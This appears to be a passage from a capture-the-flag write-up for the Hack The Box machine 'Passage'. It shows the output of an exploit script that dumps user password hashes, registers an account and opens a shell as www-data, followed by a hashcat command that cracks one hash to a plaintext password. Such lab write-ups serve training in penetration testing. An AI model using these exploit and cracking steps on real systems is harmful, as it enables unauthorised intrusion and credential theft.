 ```bash
                              / , _/ /__/ _/
                             /_/|_|\___/___/




[->] Usage python3 expoit.py

Enter the URL> http://passage.htb/
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: ZAWuTDYMZa and password: ZAWuTDYMZa

=======================================================
Sending Payload
=======================================================
signature_key: b198605c0dff17902cd403af12b3aeab-ZAWuTDYMZa
signature_dsi: 5fa6c58bd73193eedcc3e96dd6ca0065
logged in user: ZAWuTDYMZa
============================
Dropping to a SHELL
============================

command > id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Crack user hahses

At the mean time, I will try to crack the hashes to hopefully get some passwords to spray

```bash
hashcat loot/80_users.hash /opt/wordlists/rockyou.txt -m 1400
```

There's one password found

```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage]
└─$ hashcat loot/80_users.hash /opt/wordlists/rockyou.txt -m 1400 --show
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
```
